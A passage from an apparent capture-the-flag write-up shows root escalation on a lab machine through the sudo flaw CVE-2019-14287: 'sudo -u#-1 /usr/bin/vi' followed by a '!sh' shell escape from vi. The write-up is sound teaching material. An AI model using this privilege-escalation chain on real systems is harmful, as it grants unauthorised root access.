 ```bash
sudo -l
```

![image](https://user-images.githubusercontent.com/67465230/187017047-bfb72527-a51c-4a04-babf-e09a388cc833.png)

it shows that **/usr/bin/vi** editor can be run on **/home/gwendoline/user.txt** file, when run, can escalate the user privileges.

Now, trying to escalate privilege,

```bash
sudo /usr/bin/vi /home/gwendoline/user.txt
```

![image](https://user-images.githubusercontent.com/67465230/187017084-d0e81d1e-e17b-49b5-bbc3-c4be770181c2.png)

User Gwendoline can't run /usr/bin/vi on stated file as sudo user because they are not part of sudoers file. Now comes the CVE-2019-14287.

>**CVE-2019-14287**: Joe Vennix found that if you specify a UID of -1 (or its unsigned equivalent: 4294967295), Sudo would incorrectly read this as being 0 (i.e. root). This means that by specifying a UID of -1 or 4294967295, you can execute a command as root, despite being explicitly prevented from doing so. 

I take advantage of this flaw to escalate the privilege to root user,

```bash
sudo -u#-1 /usr/bin/vi /home/gwendoline/user.txt
```

![image](https://user-images.githubusercontent.com/67465230/187017098-aa2b34bb-164b-498c-a616-8b97c8e2ae4e.png)

and the vi editor opens up. I tried to escape the shell using `!sh`.

I became root user,

![image](https://user-images.githubusercontent.com/67465230/187017107-45ac2cfa-4b37-4bcc-8cb9-5688e79d938f.png)

and now I got the root flag by navigating to root directory.